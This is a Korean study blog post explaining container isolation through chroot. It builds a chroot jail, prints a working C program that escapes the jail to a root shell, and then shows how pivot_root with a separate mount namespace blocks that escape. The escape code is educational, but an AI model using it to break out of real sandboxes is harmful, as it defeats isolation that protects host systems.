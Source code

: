 ```yaml
---
layout: post
title: 컨테이너의 시작 chroot 감옥 체험기
category: study
tags: kans
---
```


컨테이너는 가상머신과 다르게 커널을 공유해서 바로 프로세스를 실행 할 수 있는 구조이다. 
아래 그림과 같이 호스트 커널을 공유하지만 각각의 독립된 사용자 공간을 가진다.

![1-0-0](/assets/img/1-0-0.png)



이러한 컨테이너의 시작은 특정 디렉토리를 루트(/)로 지정하여 해당 경로에 프로세스를 가두는 방식이다.

![1-0-1](/assets/img/1-0-1.png)

루트디렉토리 아래에 있는 디렉토리 A를 루트로 지정하여 들어가게되면

![1-0-2](/assets/img/1-0-2.png)

안에 있는 프로세스들은 디렉토리 A를 루트로 갇히게 된다.



#### 사용되는 명령어

chroot
:프로세스가 실행되는 루트 디렉토리를 특정 디렉토리로 변경한다.
pivot_root
:프로세스의 마운트 네임스페이스에서 루트 마운트를 특정 디렉토리에 마운트 되어있는 새 마운트로 변경한다.



#### 감옥생성

```
# 루트가 될 디렉토리(new-root)를 생성 후 필요한 명령어 복사
mkdir -p new-root/bin
cp $(which bash) new-root/bin

# 명령어 실행 시 참조하는 라이브러리 복사
ldd /bin/bash
cp /lib/x86_64-linux-gnu/libtinfo.so.6 new-root/lib/
...
```
이런식으로 필요한 명령어들을 하나씩 복사해서 넣어준다.
chroot 명령어를 통해 들어가보면 만들어진 루트 디렉토리에 갇힌 것을 확인할 수 있다.

![1-1](/assets/img/1-1.png)



#### 탈옥
탈옥하기에 앞서 위와 같이 명령어를 하나씩 다 넣기는 힘드니 만들어진 이미지를 사용하여 새로운 루트를 만들어준다.

```
# nginx이미지를 tar로 압축 후 nginx-root 디렉토리에 압축 해제
docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -

# 탈옥 코드
cat <<EOF >escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out",0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}

# 위의 코드를 컴파일하여 nginx-root에 escape_chroot이라는 실행 파일을 생성
gcc -o nginx-root/escape_chroot escape_chroot.c
```
chroot 명령어를 사용하여 들어가 탈옥코드로 만든 실행파일을 실행시키면 진짜 루트 디렉토리로 나오게된다.

![1-2](/assets/img/1-2.png)



#### 문제 해결을 위해 pivot_root와 mount namespace를 이용하여 다시 가두기

```
# 디렉토리 생성 후 800M사이즈의 파일시스템을 마운트 
mkdir new-root 
mount -n -t tmpfs -o size=800M none new-root

# 위에서 테스트 했던 nginx-root의 파일들을 복사하여 새 디렉토리에 붙여넣기
cp -r nginx-root/* new-root/

# 
mkdir new-root/old-root

# 호스트에 영향을 주지않기 위해 mount namespace분리 (new-root에서 실행)
unshare -m
```
escape_chroot을 돌려도 만들어진 루트 디렉토리에서 빠져나오지 못하는 것을 확인할 수 있다.

![1-3](/assets/img/1-3.png)


---
참고
- https://netpple.github.io/docs/make-container-without-docker/container-internal-1
- https://netpple.github.io/docs/make-container-without-docker/container-internal-2
- https://www.44bits.io/ko/post/change-root-directory-by-using-chroot

- https://man7.org/linux/man-pages/man2/chroot.2.html
- https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html

